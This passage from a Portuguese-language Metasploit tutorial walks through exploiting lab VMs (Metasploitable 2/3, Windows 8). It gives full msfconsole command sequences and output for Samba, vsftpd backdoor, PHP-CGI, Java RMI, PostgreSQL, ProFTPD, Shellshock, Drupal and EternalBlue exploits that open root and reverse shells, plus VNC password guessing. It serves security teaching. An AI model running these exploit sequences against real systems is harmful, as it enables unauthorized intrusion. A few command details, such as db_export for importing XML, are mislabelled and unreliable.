192.168.56.108  80    tcp    http     open   Apache httpd 2.4.41 (Ubuntu)
192.168.56.108  111   tcp    rpcbind  open   2-4 RPC #100000
192.168.56.108  2049  tcp    nfs_acl  open   3 RPC #100227

```

É possível filtrar as colunas que serão listadas, como por exemplo: ``services -c name,info 192.168.56.108``, que apresentarão apenas as colunas ``name`` e ``info``.

Fazer o uso do Nmap, pode auxiliar na organização do PenTeste, evitando por exemplo que seja necessário ficar repetindo buscas (caso o PenTester esqueça dos *scans* já realizados). Também pode ser bem útil na hora de montar os relatórios a respeito do PenTeste para o cliente.

> Atenção, os dados armazenados no banco de dados refletem um status do passado, então pode acontecer do alvo não estar mais com uma dada porta ativa ou ter atualizado algum serviço. Assim, pode ser necessário de tempos em tempos refazer o *scan* para atualizar o estado do alvo.

### Metasploit, Nmap e XML

Além de executar o Nmap direto no console do Metasploit, é possível importar dados de *scans* feitos direto pelo Nmap de arquivos XML.

Para isso basta executar dentro do ``msfconsole`` o comando: ``db_export -f xml <nomeArquivoNmapXML>``.

Então os dados deste arquivo ficarão disponíveis no bando de dados do Metasploit.


## Outros Módulos Auxiliares

Há vários módulos e não dá para cobrir todos aqui (não é essa a intenção desse material). Assim, segue a sugestão de pesquisa/testes com alguns módulos:

* HTTP:
   * ``auxiliary/scanner/http/http_version``;
   * ``auxiliary/scanner/http/backup_file``;
   * ``auxiliary/scanner/http/dir_listing``;
   * ``auxiliary/scanner/http/ssl``.
* SSH:
   * ``auxiliary/scanner/ssh/ssh_enumusers``;
   * ``auxiliary/scanner/ssh/ssh_login``;
   * ``auxiliary/scanner/ssh/detect_kippo``.
* Sniffer de senhas:
   * ``auxiliary/sniffer/psnuffle``.
* VNC:
   * ``auxiliary/scanner/vnc/vnc_none_auth``.


> Para mais informações consulte a bibliografia disponível em Referência (no final do texto).


## Módulo Exploits

Bem, como já foi dito o Metasploit possui milhares de módulos para exploração de vulnerabilidades. Esses módulos normalmente são específicos para um dado sistema alvo, de um dado software e versão. Assim, para utilizar e testar esses módulos será necessário as informações de todos os passos de PenTeste realizados até aqui. Isso também complica a explicação de todos esses módulos, já que eles não são se propósito geral, muitos dos módulos não serão úteis, a menos que você se depare com tal sistema.

Desta forma, provavelmente a melhor forma de aprender os módulos é a partir de exemplos. Dito isso, a seguir serão apresentados alguns exemplos de uso do módulo Exploits do Metasploit. Para esses exemplos serão utilizados pelos menos duas Máquinas Virtuais (VMs) próprias para invasão, tais VMs podem ser obtidas em:
* Linux Metasploitable 2 -  <https://sourceforge.net/projects/metasploitable/files/Metasploitable2/>;
* Linux e Windows Metasploitable 3 - <https://github.com/rapid7/metasploitable3>.


### Explorando o Linux Metasploitable 2

Esse teste ocorre em uma VM [Metasploitable 2](https://sourceforge.net/projects/metasploitable/files/Metasploitable2/) com Linux.

### Explorando com o SAMBA com o ``usermap_script``:

O módulo ``usermap_script`` explora uma vulnerabilidade que permite a execução de comandos em servidores SAMBA versões 3.0.20 até 3.0.25rc3. Neste quando o nome de usuário contém meta carácteres, o atacantes pode executar comandos arbitrários.

```console
[luiz@fielDACOM ~]$ msfconsole
msf6 > search samba
msf6 > use exploit/multi/samba/usermap_script
msf6 exploit(multi/samba/usermap_script) > set RHOSTS 192.168.56.104
msf6 exploit(multi/samba/usermap_script) > set LHOST 192.168.56.1
msf6 exploit(multi/samba/usermap_script) > exploit
```
Leia a respeito desta vulnerabilidade em:
* <https://www.infosecmatter.com/metasploit-module-library/?mm=exploit/multi/samba/usermap_script>;
* <https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script/>.

> Há várias outras vulnerabilidades para serem exploradas e testas no Metasploitable 2, a ideia não é aprender apenas o *exploit*, que pode estar defasado, mas sim entender as técnicas envolvidas, pois isso pode lhe dar uma base melhor para entender e executar outros testes mais atuais. Ou seja, o objetivo é o aprendizado.

### Explorando com ``vsftpd_234_backdoor``

Esse *exploit* utiliza um backdoor que foi adicionado maliciosamente no VSFTPD, em sua versão 2.3.4.

> Essa vulnerabilidade foi incluída no dia 01/07/2011 e removida no dia 03/07/2011. Então encontrar essa vulnerabilidade em algum sistema é muito raro, mas a possibilidade existe. ;-)

```console
msf6 > use exploit/unix/ftp/vsftpd_234_backdoor
[*] No payload configured, defaulting to cmd/unix/interact
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 192.168.56.104
RHOSTS => 192.168.56.104
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > options

Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  192.168.56.104   yes       The target host(s), see https://github.com/rapid7/met
                                      asploit-framework/wiki/Using-Metasploit
   RPORT   21               yes       The target port (TCP)


Payload options (cmd/unix/interact):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf6 exploit(unix/ftp/vsftpd_234_backdoor) > exploit

[*] 192.168.56.104:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 192.168.56.104:21 - USER: 331 Please specify the password.
[+] 192.168.56.104:21 - Backdoor service has been spawned, handling...
[+] 192.168.56.104:21 - UID: uid=0(root) gid=0(root)
[*] Found shell.
ls
[*] Command shell session 1 opened (192.168.56.1:35061 -> 192.168.56.104:6200) at 2022-09-21 13:38:51 -0300

bin
boot
cdrom
dev
etc
home
initrd
initrd.img
lib
lost+found
media
mnt
nohup.out
opt
proc
root
sbin
srv
sys
tmp
usr
var
vmlinuz
id
uid=0(root) gid=0(root)
```

Leia mais a respeito dessa vulnerabilidade em:
* <https://www.rapid7.com/db/modules/exploit/unix/ftp/vsftpd_234_backdoor/>
* <https://www.infosecmatter.com/metasploit-module-library/?mm=exploit/unix/ftp/vsftpd_234_backdoor>


### Explorando com ``php_cgi_arg_injection``

Esse *exploit* utiliza-se de uma vulnerabilidade PHP/CGI nas versões 5.3.12 e 5.4.2, na qual permite injetar códigos e execulá-los no servidor.

```console
msf6 > use exploit/multi/http/php_cgi_arg_injection
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf6 exploit(multi/http/php_cgi_arg_injection) > set RHOSTS 192.168.56.104
RHOSTS => 192.168.56.104
msf6 exploit(multi/http/php_cgi_arg_injection) > exploit

[*] Started reverse TCP handler on 172.16.255.147:4444
[*] Exploit completed, but no session was created.
msf6 exploit(multi/http/php_cgi_arg_injection) > set LHOST 192.168.56.1
LHOST => 192.168.56.1
msf6 exploit(multi/http/php_cgi_arg_injection) > exploit

[*] Started reverse TCP handler on 192.168.56.1:4444
[*] Sending stage (39927 bytes) to 192.168.56.104
[*] Meterpreter session 2 opened (192.168.56.1:4444 -> 192.168.56.104:60672) at 2022-09-21 13:44:37 -0300

meterpreter > ls
Listing: /var/www
=================

Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
041777/rwxrwxrwx  4096   dir   2012-05-20 16:30:29 -0300  dav
040755/rwxr-xr-x  4096   dir   2012-05-20 16:52:33 -0300  dvwa
100644/rw-r--r--  891    fil   2012-05-20 16:31:37 -0300  index.php
040755/rwxr-xr-x  4096   dir   2012-05-14 02:43:54 -0300  mutillidae
040755/rwxr-xr-x  4096   dir   2012-05-14 02:36:40 -0300  phpMyAdmin
100644/rw-r--r--  19     fil   2010-04-16 03:12:44 -0300  phpinfo.php
040755/rwxr-xr-x  4096   dir   2012-05-14 02:50:38 -0300  test
040775/rwxrwxr-x  20480  dir   2010-04-19 19:54:16 -0300  tikiwiki
040775/rwxrwxr-x  20480  dir   2010-04-16 03:17:47 -0300  tikiwiki-old
040755/rwxr-xr-x  4096   dir   2010-04-16 16:27:58 -0300  twiki
```

Para mais informação leia:
* <https://www.infosecmatter.com/metasploit-module-library/?mm=exploit/multi/http/php_cgi_arg_injection>
* <https://pentesterlab.com/exercises/cve-2012-1823/course>


### Explorando com ``java_rmi_server``

Tal *exploit* utiliza-se de falhas da configuração padrão do protocolo RMI (Java Remote Method Invocation), que permite carregar classes de qualquer URL remota. Assim, permite que um programa escrito em Java se comunique com outro programa remoto e estenda a usabilidade do programa, mas isso permite executar códigos maliciosos.

```console
msf6 > use exploit/multi/misc/java_rmi_server
[*] Using configured payload java/meterpreter/reverse_tcp
msf6 exploit(multi/misc/java_rmi_server) > options

Module options (exploit/multi/misc/java_rmi_server):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   HTTPDELAY  10               yes       Time that the HTTP Server will wait for the payloa
                                         d request
   RHOSTS                      yes       The target host(s), see https://github.com/rapid7/
                                         metasploit-framework/wiki/Using-Metasploit
   RPORT      1099             yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on.
                                         This must be an address on the local machine or 0.
                                         0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL for incoming connections
   SSLCert                     no        Path to a custom SSL certificate (default is rando
                                         mly generated)
   URIPATH                     no        The URI to use for this exploit (default is random
                                         )


Payload options (java/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  172.16.255.147   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Generic (Java Payload)


msf6 exploit(multi/misc/java_rmi_server) > set LHOST 192.168.56.1
LHOST => 192.168.56.1
msf6 exploit(multi/misc/java_rmi_server) > set RHOSTS 192.168.56.104
RHOSTS => 192.168.56.104
msf6 exploit(multi/misc/java_rmi_server) > exploit

[*] Started reverse TCP handler on 192.168.56.1:4444
[*] 192.168.56.104:1099 - Using URL: http://192.168.56.1:8080/8eZ1y9hmzmuoV
[*] 192.168.56.104:1099 - Server started.
[*] 192.168.56.104:1099 - Sending RMI Header...
[*] 192.168.56.104:1099 - Sending RMI Call...
[*] 192.168.56.104:1099 - Replied to request for payload JAR
[*] Sending stage (58851 bytes) to 192.168.56.104
[*] Meterpreter session 3 opened (192.168.56.1:4444 -> 192.168.56.104:55366) at 2022-09-21 13:47:41 -0300

meterpreter > ls
Listing: /
==========

Mode              Size     Type  Last modified              Name
----              ----     ----  -------------              ----
040666/rw-rw-rw-  4096     dir   2012-05-14 00:35:33 -0300  bin
040666/rw-rw-rw-  1024     dir   2012-05-14 00:36:28 -0300  boot
040666/rw-rw-rw-  4096     dir   2010-03-16 19:55:51 -0300  cdrom
040666/rw-rw-rw-  13440    dir   2022-08-18 15:41:55 -0300  dev
040666/rw-rw-rw-  4096     dir   2022-08-18 15:41:59 -0300  etc
040666/rw-rw-rw-  4096     dir   2010-04-16 03:16:02 -0300  home
040666/rw-rw-rw-  4096     dir   2010-03-16 19:57:40 -0300  initrd
100666/rw-rw-rw-  7929183  fil   2012-05-14 00:35:56 -0300  initrd.img
040666/rw-rw-rw-  4096     dir   2012-05-14 00:35:22 -0300  lib
040666/rw-rw-rw-  16384    dir   2010-03-16 19:55:15 -0300  lost+found
040666/rw-rw-rw-  4096     dir   2010-03-16 19:55:52 -0300  media
040666/rw-rw-rw-  4096     dir   2010-04-28 17:16:56 -0300  mnt
100666/rw-rw-rw-  6542     fil   2022-08-18 15:42:00 -0300  nohup.out
040666/rw-rw-rw-  4096     dir   2010-03-16 19:57:39 -0300  opt
040666/rw-rw-rw-  0        dir   2022-08-18 15:41:47 -0300  proc
040666/rw-rw-rw-  4096     dir   2022-08-18 15:42:00 -0300  root
040666/rw-rw-rw-  4096     dir   2012-05-13 22:54:53 -0300  sbin
040666/rw-rw-rw-  4096     dir   2010-03-16 19:57:38 -0300  srv
040666/rw-rw-rw-  0        dir   2022-08-18 15:41:47 -0300  sys
040666/rw-rw-rw-  4096     dir   2022-08-20 20:42:34 -0300  tmp
040666/rw-rw-rw-  4096     dir   2010-04-28 01:06:37 -0300  usr
040666/rw-rw-rw-  4096     dir   2010-03-17 11:08:23 -0300  var
100666/rw-rw-rw-  1987288  fil   2008-04-10 13:55:41 -0300  vmlinuz

meterpreter > pwd
/
meterpreter > getuid
Server username: root
```

Leia mais a respeito desse *exploit* em:
* <https://www.computersecuritystudent.com/SECURITY_TOOLS/METASPLOITABLE/EXPLOIT/lesson5/>
* <https://null-byte.wonderhowto.com/how-to/exploit-java-remote-method-invocation-get-root-0187685/>


### Explorando com ``postgres_payload``

O *exploit* ``postgres_payload``, utiliza de uma vulnerabilidade criada em instalações do banco de dados PostGres no Linux, que permite escrever no diretório ``/tmp`` e carregar códigos maliciosos.


```console
msf6 > use use exploit/linux/postgres/postgres_payload
[*] Using configured payload linux/x86/meterpreter/reverse_tcp

Matching Modules
================

   #  Name                                     Disclosure Date  Rank       Check  Description
   -  ----                                     ---------------  ----       -----  -----------
   0  exploit/linux/postgres/postgres_payload  2007-06-05       excellent  Yes    PostgreSQL for Linux Payload Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/linux/postgres/postgres_payload

[*] Using exploit/linux/postgres/postgres_payload
msf6 exploit(linux/postgres/postgres_payload) > set RHOSTS 192.168.56.104
RHOSTS => 192.168.56.104
msf6 exploit(linux/postgres/postgres_payload) > set LHOST 192.168.56.1
LHOST => 192.168.56.1
msf6 exploit(linux/postgres/postgres_payload) > exploit

[*] Started reverse TCP handler on 192.168.56.1:4444
[*] 192.168.56.104:5432 - PostgreSQL 8.3.1 on i486-pc-linux-gnu, compiled by GCC cc (GCC) 4.2.3 (Ubuntu 4.2.3-2ubuntu4)
[*] Uploaded as /tmp/OONLZNqb.so, should be cleaned up automatically
[*] Sending stage (989032 bytes) to 192.168.56.104
[*] Meterpreter session 4 opened (192.168.56.1:4444 -> 192.168.56.104:35305) at 2022-09-21 13:50:36 -0300

meterpreter > ls
Listing: /var/lib/postgresql/8.3/main
=====================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100600/rw-------  4     fil   2010-03-17 11:08:46 -0300  PG_VERSION
040700/rwx------  4096  dir   2010-03-17 11:08:56 -0300  base
040700/rwx------  4096  dir   2022-08-20 20:45:27 -0300  global
040700/rwx------  4096  dir   2010-03-17 11:08:49 -0300  pg_clog
040700/rwx------  4096  dir   2010-03-17 11:08:46 -0300  pg_multixact
040700/rwx------  4096  dir   2010-03-17 11:08:49 -0300  pg_subtrans
040700/rwx------  4096  dir   2010-03-17 11:08:46 -0300  pg_tblspc
040700/rwx------  4096  dir   2010-03-17 11:08:46 -0300  pg_twophase
040700/rwx------  4096  dir   2010-03-17 11:08:49 -0300  pg_xlog
100600/rw-------  125   fil   2022-08-18 15:41:58 -0300  postmaster.opts
100600/rw-------  54    fil   2022-08-18 15:41:58 -0300  postmaster.pid
100644/rw-r--r--  540   fil   2010-03-17 11:08:45 -0300  root.crt
100644/rw-r--r--  1224  fil   2010-03-17 11:07:45 -0300  server.crt
100640/rw-r-----  891   fil   2010-03-17 11:07:45 -0300  server.key

meterpreter > getuid
Server username: postgres

```

Leia mais a respeito em:
* <https://www.rapid7.com/db/modules/exploit/linux/postgres/postgres_payload/>


### Explorando com ``vnc_login``

Na verdade este não é um *exploit*, mas sim um módulo auxiliar, que irá escanear um IP ou faixas de IPs, tentando descobrir um login válido para o [VNC](https://pt.wikipedia.org/wiki/Virtual_Network_Computing), para isso ele utiliza uma lista de senhas.

```console
msf6 auxiliary(scanner/vnc/vnc_login) > set login 192.168.56.104
[-] Unknown datastore option: login.
msf6 auxiliary(scanner/vnc/vnc_login) > options

Module options (auxiliary/scanner/vnc/vnc_login):

   Name              Current Setting         Required  Description
   ----              ---------------         --------  -----------
   BLANK_PASSWORDS   false                   no        Try blank passwords for all users
   BRUTEFORCE_SPEED  5                       yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS      false                   no        Try each user/password couple stored
                                                        in the current database
   DB_ALL_PASS       false                   no        Add all passwords in the current dat
                                                       abase to the list
   DB_ALL_USERS      false                   no        Add all users in the current databas
                                                       e to the list
   DB_SKIP_EXISTING  none                    no        Skip existing credentials stored in
                                                       the current database (Accepted: none
                                                       , user, user&realm)
   PASSWORD                                  no        The password to test
   PASS_FILE         /opt/metasploit/data/w  no        File containing passwords, one per l
                     ordlists/vnc_passwords            ine
                     .txt
   Proxies                                   no        A proxy chain of format type:host:po
                                                       rt[,type:host:port][...]
   RHOSTS                                    yes       The target host(s), see https://gith
                                                       ub.com/rapid7/metasploit-framework/w
                                                       iki/Using-Metasploit
   RPORT             5900                    yes       The target port (TCP)
   STOP_ON_SUCCESS   false                   yes       Stop guessing when a credential work
                                                       s for a host
   THREADS           1                       yes       The number of concurrent threads (ma
                                                       x one per host)
   USERNAME          <BLANK>                 no        A specific username to authenticate
                                                       as
   USERPASS_FILE                             no        File containing users and passwords
                                                       separated by space, one pair per lin
                                                       e
   USER_AS_PASS      false                   no        Try the username as the password for
                                                        all users
   USER_FILE                                 no        File containing usernames, one per l
                                                       ine
   VERBOSE           true                    yes       Whether to print output for all atte
                                                       mpts

msf6 auxiliary(scanner/vnc/vnc_login) > set RHOSTS 192.168.56.104
RHOSTS => 192.168.56.104
msf6 auxiliary(scanner/vnc/vnc_login) > exploit

[*] 192.168.56.104:5900   - 192.168.56.104:5900 - Starting VNC login sweep
[!] 192.168.56.104:5900   - No active DB -- Credential data will not be saved!
[+] 192.168.56.104:5900   - 192.168.56.104:5900 - Login Successful: :password
[*] 192.168.56.104:5900   - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

|  |
|:--:|
| **Figura 1 - Acessando VNC do alvo/vítima |

Para mais informações a respeito do ``vnc_login``, leia:
* <https://www.offensive-security.com/metasploit-unleashed/scanner-vnc-auxiliary-modules/>
* <https://www.rapid7.com/db/modules/auxiliary/scanner/vnc/vnc_login/>

Para estudar mais a respeito de como explorar vulnerabilidades no Metasploitable 2 e assim aumentar o seu conhecimento a respeito de PenTest, leia: <https://www.hackingarticles.in/comprehensive-guide-on-metasploitable-2/>


## Explorando o Linux Metasploitable 3:

Esses testes ocorrem em uma VM [metasploitable 3](https://github.com/rapid7/metasploitable3) com Linux, que até a escrita deste texto era a versão mais atual do Metasploitable.

### Explorando com o ``proftpd_modcopy_exec``

Este *exploit* explora comandos do ProFTPD versão 1.3.5. No qual um cliente não autorizado pode copiar arquivos para qualquer parte do sistema. A copia é realizada com as permissões do usuário que executa o ProFTPD.

Assim, executando esse exploit (``proftpd_modcopy_exec``), ele copia um arquivo PHP (``rat7YM.php``) para o diretório padrão do servidor HTTP (``/var/www/html``) que está executando PHP. Depois disso é criado um shell remoto através do arquivo PHP malicioso e a atacante/PenTester.

```console
msf6 > use exploit/unix/ftp/proftpd_modcopy_exec
msf6 exploit(unix/ftp/proftpd_modcopy_exec) > set payload payload/cmd/unix/reverse_perl
payload => cmd/unix/reverse_perl
msf6 exploit(unix/ftp/proftpd_modcopy_exec) > set SITEPATH /var/www/html
SITEPATH => /var/www/html
msf6 exploit(unix/ftp/proftpd_modcopy_exec) > set RHOSTS 192.168.56.6
RHOSTS => 192.168.56.6
msf6 exploit(unix/ftp/proftpd_modcopy_exec) > set LHOST 192.168.56.5
LHOST => 192.168.56.5
msf6 exploit(unix/ftp/proftpd_modcopy_exec) > options

Module options (exploit/unix/ftp/proftpd_modcopy_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.56.6     yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      80               yes       HTTP port (TCP)
   RPORT_FTP  21               yes       FTP port
   SITEPATH   /var/www/html    yes       Absolute writable website path
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       Base path to the website
   TMPPATH    /tmp             yes       Absolute writable path
   VHOST                       no        HTTP server virtual host


Payload options (cmd/unix/reverse_perl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.56.5     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   ProFTPD 1.3.5


msf6 exploit(unix/ftp/proftpd_modcopy_exec) > exploit

[*] Started reverse TCP handler on 192.168.56.5:4444
[*] 192.168.56.6:80 - 192.168.56.6:21 - Connected to FTP server
[*] 192.168.56.6:80 - 192.168.56.6:21 - Sending copy commands to FTP server
[*] 192.168.56.6:80 - Executing PHP payload /rat7YM.php
[*] Command shell session 1 opened (192.168.56.5:4444 -> 192.168.56.6:38251) at 2022-09-20 09:25:57 -0400

ls
QK828.php
chat
drupal
payroll_app.php
phpmyadmin
rat7YM.php
pwd
/var/www/html
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Neste exemplo a vítima tem o IP 192.168.56.6, o atacante o 192.168.56.5.

Para mais informação leia:
* <https://www.rapid7.com/db/modules/exploit/unix/ftp/proftpd_modcopy_exec/>


### Explorando com o ``apache_mod_cgi_bash_env_exec``

Este *exploit* se utiliza da vulnerabilidade chamada [Shellshock](), na qual o Bash trata de variáveis de ambiente. Neste *exploit* são utilizados *scripts* CGI no Apache para configurar a variável ``HTTP_USER_AGENT`` para fins maliciosos.

```console
msf6 > search apache_mod_cgi

Matching Modules
================

   #  Name                                             Disclosure Date  Rank       Check  Description
   -  ----                                             ---------------  ----       -----  -----------
   0  exploit/multi/http/apache_mod_cgi_bash_env_exec  2014-09-24       excellent  Yes    Apache mod_cgi Bash Environment Variable Code Injection (Shellshock)
   1  auxiliary/scanner/http/apache_mod_cgi_bash_env   2014-09-24       normal     Yes    Apache mod_cgi Bash Environment Variable Injection (Shellshock) Scanner


Interact with a module by name or index. For example info 1, use 1 or use auxiliary/scanner/http/apache_mod_cgi_bash_env

msf6 > use 0
[*] No payload configured, defaulting to linux/x86/meterpreter/reverse_tcp
msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > options

Module options (exploit/multi/http/apache_mod_cgi_bash_env_exec):

   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   CMD_MAX_LENGTH  2048             yes       CMD max line length
   CVE             CVE-2014-6271    yes       CVE to check/exploit (Accepted: CVE-2014-6271, CVE-2014-6278)
   HEADER          User-Agent       yes       HTTP header to use
   METHOD          GET              yes       HTTP method to use
   Proxies                          no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                           yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPATH           /bin             yes       Target PATH for binaries used by the CmdStager
   RPORT           80               yes       The target port (TCP)
   SRVHOST         0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0
                                              to listen on all addresses.
   SRVPORT         8080             yes       The local port to listen on.
   SSL             false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                          no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI                        yes       Path to CGI script
   TIMEOUT         5                yes       HTTP read response timeout (seconds)
   URIPATH                          no        The URI to use for this exploit (default is random)
   VHOST                            no        HTTP server virtual host


Payload options (linux/x86/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.0.2.15        yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Linux x86


msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > set RHOSTS 192.168.56.6
RHOSTS => 192.168.56.6
msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > set LHOST 192.168.56.5
LHOST => 192.168.56.5
msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > run

[-] Msf::OptionValidateError The following options failed to validate: TARGETURI
msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > set targeturi /cgi-bin/hello_world.sh
targeturi => /cgi-bin/hello_world.sh
msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > run

[*] Started reverse TCP handler on 192.168.56.5:4444
[*] Command Stager progress - 100.46% done (1097/1092 bytes)
[*] Sending stage (989032 bytes) to 192.168.56.6
[*] Meterpreter session 2 opened (192.168.56.5:4444 -> 192.168.56.6:38269) at 2022-09-20 09:44:08 -0400

meterpreter > getuid
Server username: www-data
meterpreter > ls
Listing: /var/www/cgi-bin
=========================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100755/rwxr-xr-x  72    fil   2020-10-29 15:28:07 -0400  hello_world.sh

meterpreter >
```
Neste exemplo a vítima tem o IP 192.168.56.6, o atacante o 192.168.56.5, também há um *script* na vítima em: ``/cgi-bin/hello_world.sh``.

Para mais informações leia:
* <https://owasp.org/www-pdf-archive/Shellshock_-_Tudor_Enache.pdf>
* <https://www.rapid7.com/db/modules/exploit/multi/http/apache_mod_cgi_bash_env_exec/>


### Explorando com o ``drupal_drupageddon``

O Drupal é uma aplicação Web que nas versões 7.0 até 7.31, possui uma vulnerabilidade que permite executar parâmetros HTTP e executar SQL Injection.

Para essa exploração é necessário além do IP da vítima, o caminho para o Drupal, que no exemplo a seguir é o ``http://192.168.56.6/drupal/``.

```console
msf6 > search drupal
atching Modules
================

   #  Name                                           Disclosure Date  Rank       Check  Description
   -  ----                                           ---------------  ----       -----  -----------
   0  exploit/unix/webapp/drupal_coder_exec          2016-07-13       excellent  Yes    Drupal CODER Module Remote Command Execution
   1  exploit/unix/webapp/drupal_drupalgeddon2       2018-03-28       excellent  Yes    Drupal Drupalgeddon 2 Forms API Property Injection
   2  exploit/multi/http/drupal_drupageddon          2014-10-15       excellent  No     Drupal HTTP Parameter Key/Value SQL Injection
   3  auxiliary/gather/drupal_openid_xxe             2012-10-17       normal     Yes    Drupal OpenID External Entity Injection
   4  exploit/unix/webapp/drupal_restws_exec         2016-07-13       excellent  Yes    Drupal RESTWS Module Remote PHP Code Execution
   5  exploit/unix/webapp/drupal_restws_unserialize  2019-02-20       normal     Yes    Drupal RESTful Web Services unserialize() RCE
   6  auxiliary/scanner/http/drupal_views_user_enum  2010-07-02       normal     Yes    Drupal Views Module Users Enumeration
   7  exploit/unix/webapp/php_xmlrpc_eval            2005-06-29       excellent  Yes    PHP XML-RPC Arbitrary Code Execution


Interact with a module by name or index. For example info 7, use 7 or use exploit/unix/webapp/php_xmlrpc_eval

msf6 > use exploit/unix/webapp/drupal_coder_exec
msf6 exploit(unix/webapp/drupal_coder_exec) > set LHOST 192.168.56.5
LHOST => 192.168.56.5
msf6 exploit(unix/webapp/drupal_coder_exec) > set RHOSTS 192.168.56.6
RHOSTS => 192.168.56.6
msf6 exploit(unix/webapp/drupal_coder_exec) > set TARGETURI http://192.168.56.6/drupal/
TARGETURI => http://192.168.56.6/drupal/
msf6 exploit(unix/webapp/drupal_coder_exec) > exploit
[*] Started reverse TCP handler on 192.168.56.5:4444
[*] Cleaning up: [ -f coder_upgrade.run.php ] && find . \! -name coder_upgrade.run.php -delete
[*] Command shell session 1 opened (192.168.56.5:4444 -> 192.168.56.6:38224) at 2022-09-20 05:34:54 -0400
ls
coder_upgrade.run.php
cd /
ls
bin
boot
```

Para mais informações leia:
* <https://www.rapid7.com/db/modules/exploit/multi/http/drupal_drupageddon/>

Para mais exemplos com o Metasploitable 3 Linux veja: <https://stuffwithaurum.com/2020/04/17/metasploitable-3-linux-an-exploitation-guide/>


## Explorando um *host* Windows 8 com o Metasploit 3:

Não abordaremos muito como explorar Windows aqui, mas segue um exemplo de como explorar o Windows 8, com o ``ms17_010_eternalblue``, esse é o famoso *exploit* [EternalBlue](https://pt.wikipedia.org/wiki/EternalBlue), criado pela NSA (Agencia Nacional de Segurança dos Estados Unidos), para explorar sistemas Windows, permitindo executar comandos em modo privilegiado. Desta falha, por exemplo deu-se origem ao *ransomware* [Wannacry](https://pt.wikipedia.org/wiki/WannaCry).


```console
# msfconsole
msf6 > use exploit/windows/smb/ms17_010_eternalblue
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 192.168.56.3
msf6 exploit(windows/smb/ms17_010_eternalblue) > set LHOST 192.168.56.112
msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit
```
Neste caso foi utilizado o *payload* ``windows/x64/meterpreter/reverse_tcp``.

Para mais informações leia:
* <https://www.rapid7.com/db/modules/exploit/windows/smb/ms17_010_eternalblue/>


# Referência

* HIMANSHU SHARMA. Kali Linux - An Ethical Hacker’s Cookbook : Over 120 Recipes to Perform Advanced Penetration Testing with Kali Linux. Birmingham, UK: Packt Publishing, 2017. ISBN 9781787121829. Disponível em: <https://search.ebscohost.com/login.aspx?direct=true&db=e000xww&AN=1617212&lang=pt-br&site=eds-live&scope=site>. Acesso em: 26 ago. 2022.

* KEVIN CARDWELL. Building Virtual Pentesting Labs for Advanced Penetration Testing - Second Edition. Birmingham: Packt Publishing, 2016. v. Second editionISBN 9781785883491. Disponível em: <https://search.ebscohost.com/login.aspx?direct=true&db=e000xww&AN=1344064&lang=pt-br&site=eds-live&scope=site>. Acesso em: 31 ago. 2022.

* SAGAR RAHALKAR. Metasploit for Beginners : An Easy to Digest Practical Guide to Metasploit Covering All Aspects of the Framework From Installation, Configuration, and Vulnerability Hunting to Advanced Client Side Attacks and Anti-forensics. Birmingham, UK: Packt Publishing, 2017. ISBN 9781788295970. Disponível em: https://search.ebscohost.com/login.aspx?direct=true&db=e000xww&AN=1560930&lang=pt-br&site=ehost-live. Acesso em: 9 set. 2022.

* BALAPURE, A. Learning Metasploit Exploitation and Development. Birmingham: Packt Publishing, 2013. ISBN 9781782163589. Disponível em: https://search.ebscohost.com/login.aspx?direct=true&db=e000xww&AN=619977&lang=pt-br&site=eds-live&scope=site. Acesso em: 14 set. 2022.

* <https://redcanary.com/threat-detection-report/techniques/credential-dumping/#:~:text=Credential%20dumping%20is%20the%20process,Movement%20and%20access%20restricted%20information.>

* <https://attack.mitre.org/techniques/T1003/>

